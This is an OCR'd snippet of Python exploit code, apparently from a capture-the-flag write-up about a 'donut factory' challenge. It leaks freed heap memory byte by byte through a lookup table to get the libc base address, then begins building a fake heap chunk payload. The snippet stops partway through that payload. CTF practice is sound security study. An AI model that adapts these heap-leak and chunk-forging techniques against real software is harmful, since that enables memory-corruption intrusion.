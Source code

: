 ```python

    def view_donut(address):
        r.sendlineafter('[l]eave the factory\n', 'v')
        r.sendlineafter("Please give me your donut code to view it!\n", hex(address))
        donut = r.recvuntil('Welcome to the donut factory!\n')[:-len('Welcome to the donut factory!\n')]
        return donut

    def leak_byte(address, donuts):
        donut = view_donut(address)
        for i in range(0x100):
            if donuts[i] == donut[:0x1000]:
                return i

        raise Exception("Donut not found: {enhex(donut)}")

    def leak_bytes(address, size, donuts):
        leak = []
        for i in range(size):
            leak.append(leak_byte(address+i, donuts))

        return leak

    def dump_donuts():
        donuts = []
        for i in range(0x100):
            print(i)
            donut, _ = create_custom_donut(i)
            donuts.append(donut[:0x1000])

        with open('donuts.txt', 'w') as f:
            for i in range(0x100):
                f.write(f'{i}: {enhex(donuts[i])}\n')

    def parse_donuts():
        donuts = []
        with open('donuts.txt', 'r') as f:
            for line in f.readlines():
                index, donut = line.rstrip().split(": ")
                assert(int(index) == len(donuts))
                donuts.append(unhex(donut))

        return donuts

    # dump_donuts()  # Uncomment this if you don't have a donuts.txt
    donuts = parse_donuts()

    _, p = create_custom_donut(42, "name", 0x1000)  # larger than tcache
    create_custom_donut(137, "foo")  # to prevent coalescing with top chunk

    destroy_donut(p)

    libc_leak = leak_bytes(p, 8, donuts)
    libc_leak = u64(bytes(libc_leak))

    libc.address = libc_leak - 0x1ebbe0
    info(f"LIBC BASE: {hex(libc.address)}")

    payload = b''
    payload += p64(0) # prev_size
    payload += p64(0x21) # size
    payload += b'X'*0x18  # chunk_data
    payload += p64(0x21) # size
```